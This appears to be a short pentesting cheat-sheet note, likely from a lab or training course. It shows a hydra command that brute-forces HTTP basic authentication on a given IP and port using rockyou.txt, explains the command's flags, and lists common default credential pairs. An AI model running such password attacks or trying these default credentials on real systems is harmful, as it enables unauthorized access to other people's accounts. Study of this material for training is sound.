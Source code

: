 > basic auth

```bash
hydra -L /usr/share/wordlists/usernames.txt -P /usr/share/wordlists/rockyou.txt 94.237.57.211 http-get / -s 40064 -f -t 16 -V
```
- `-l` = login name
- `-L` = list of usernames
- `-P` = password list
- `-s` = port
- `http-get` = attack module
- `-f` = stop on first found
- `-t 16` = 16 threads
- `-V` = verbose output


Common Passwords:

```bash
```shell-session
admin:admin
admin:password
admin:<blank>
root:12345678
administrator:Password
```
```